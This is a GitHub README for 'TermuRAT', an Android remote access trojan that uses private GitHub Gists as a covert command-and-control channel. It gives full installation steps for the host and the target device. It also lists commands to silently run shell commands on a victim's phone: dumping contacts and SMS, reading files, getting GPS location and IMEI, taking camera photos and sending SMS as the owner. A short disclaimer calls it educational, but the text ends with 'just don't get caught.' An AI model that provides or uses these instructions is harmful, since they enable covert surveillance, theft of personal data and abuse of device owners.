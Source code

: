 # TermuRAT (v 1.2)

**TermuRAT** is a stealthy, terminal-based Android Remote Access Trojan (RAT) built for Termux. It uses private GitHub Gists as a command-and-control (C2) channel, allowing remote command execution and data exfiltration without direct connections or suspicious traffic.

## 📷 Screenshot:
![The TermuRAT](IMG_20250729_184108.jpg)

## ⚙️ Features

- 🕵️ **Runs fully in Termux**
- 🛰️ **Gist-based C2** – Pulls commands and uploads results via GitHub Gists.
- 🧠 **Timestamp logic** – Executes commands only when the Gist updates.
- 🧼 **Clean & Minimal** – Lightweight, no dependencies beyond Termux and python in it.

## 🧠 How It Works

1. The Termux script checks a private GitHub Gist at intervals.
2. If the Gist has changed timestamp, it fetches the new command.
3. The command is executed locally in Termux in the target device.
4. The output is pushed back to another Gist as response.

## 📁 Structure

- `target.py` – Main RAT client script (runs on the target via Termux).
- `host.py` – Control-side script to send commands and fetch results.

## 🚀 Setup

1. Create a **GitHub Token**.
2. Set your GitHub token in host scripts.
3. Run `host.py`. It will genarate the gists and print in terminal.
4. Paste the token and gist id in target device and run `target.py` on target device via Termux.
5. Use `host.py` to send commands and read results.

## 📦 Requirements

- Termux and Termux:Api installed on target device.
- GitHub account & token with Gist access
- Terminal to send the command to target device.

## ⚠️ Disclaimer

This tool is for **educational and ethical research purposes only**. Unauthorized access to devices or systems is illegal and unethical. You are responsible for how you use TermuRAT.

## 🛠️ Installation

### On the **Host** (Control Machine):
```bash
pkg update && pkg upgrade
pkg install python git
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/HostSide
python host.py
```
🧠 host.py will auto-generate the required Gists and display their IDs. Like:
```json
{"token": "<your token>", "to_target_gist_id": "<gist_id1>", "to_host_gist_id": "<gist_id2>"}
```

Copy it and paste it in target device.


### On the **Target Device** (Termux):
```bash
pkg update && pkg upgrade
pkg install python git termux-api
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/TargetSide
nano data.json
```
Here you can see json like this: 
```json
{"token": "", "to_target_gist_id": "", "to_host_gist_id": ""}
```
⚠️ Make sure to paste the GitHub Token and Gist ID from host device.
Then run
```bash
python target.py
```

## 🧨 What Can You Do with TermuRAT?

- 🔍 **Run Shell Commands**  
  Execute any shell command on the target device—silently.

- 📂 **Access Files**  
  List directories, read file contents, or exfiltrate sensitive data.

- 📸 **Use Device Sensors**  
  If Termux:API is enabled, access location, battery status, or even take photos.

- 🧾 **Install or Run Scripts**  
  Deploy and run additional payloads or scripts on the fly.

- 🔁 **Persistent Execution**  
  With a little tweaking, make it auto-run at boot like a true lurker.

- 📡 **Communicate Silently**  
  No ports, no listeners—just GitHub being abused like a C2 server.

> And yes, it all happens through a tiny GitHub Gist. Told you it was sneaky.

## 🧪 Example Usage

After launching `target.py`, you can use various commands. Some examples are given below:


termux-toast "You’ve been hacked 😈" [Display a toast message (for fun or trolling)]

termux-vibrate -d 1000 [Vibrate the device for 1 second]

termux-battery-status [Get battery level, charging status, and health]

termux-location [Get the device's current GPS coordinates]

termux-camera-photo -c 1 [Take a photo using the front camera]
 
termux-camera-photo -c 0 [Take a photo using the rear camera]

termux-sensor -l [List all available hardware sensors]

termux-sensor -s accelerometer,gyroscope,light -n 2 | timeout 5 cat [Get real-time accelerometer data]

termux-telephony-deviceinfo [Fetch device IMEI, carrier info, and more]

termux-wifi-connectioninfo [Show current Wi-Fi connection details]
  
termux-contact-list [Dump all saved contacts]

termux-sms-list [List received SMS messages]
 
termux-sms-send -n 1234567890 "Yo, this phone is mine now." [Send an SMS from the target]

termux-notification --title "Warning" --content "You’re being watched." [Push a custom notification]

termux-dialog text [Show a prompt dialog (requires user input)]

df -h [Show internal storage usage stats]

ls /sdcard/ [List files in the device's internal storage]

cat /sdcard/secret.txt [Read contents of a specific file]

top -n 1 [Display real-time system resource usage]

ps -A [List all running processes]  
curl ifconfig.me [Get the device's public IP address]

uptime [Check how long the device has been running]

whoami [Display the current user (usually u0_aXXX in Termux)]

termurat exit -h [Internal command of TermuRAT to exit the program]

termurat print Hello [Prints text on target device]


## ❌ Cons (a.k.a. Why TermuRAT Isn't God Mode... Yet)

- 📱 Requires Termux to be **open and running** on the target (no background daemon magic)
- 🐢 Kinda slow due to polling + GitHub latency (not for real-time thrills)
- 🔑 Needs a valid **GitHub token** with Gist access (and could get rate-limited or flagged)
- 🌐 Requires internet access on both sides (obviously)
- 🧠 No built-in encryption (commands and responses are plain JSON unless you DIY it)
- 🔒 Cannot bypass Android permission prompts (Termux:API features may require manual grants)
- 🚫 No persistence out-of-the-box (won’t auto-restart after reboot unless you rig it)
- 🤖 Heavily dependent on Termux:API (some devices or versions might lack support)
- 👁️ Easily detectable as we are installing 2 apps in target 
- 💥 Can break if Gist is deleted, token revoked, or GitHub throws a tantrum
- - 🔗 A single host can control only **one target per Gist pair** (no multi-target support out of the box)

> Think of TermuRAT as a stealthy intern—it’ll do your bidding, but it won’t take over the world. Yet.


## 🧠 Final Words

TermuRAT is a proof of concept that shows how simple tools can be repurposed for powerful, stealthy control—without fancy exploits, just creativity and clever abuse of APIs. While it’s not a military-grade RAT, it gets the job done quietly, like a whisper in the terminal.

Use it wisely. Use it ethically. Or don’t—just don’t get caught.



**Built with Python, powered by GitHub, operated through Termux.** 
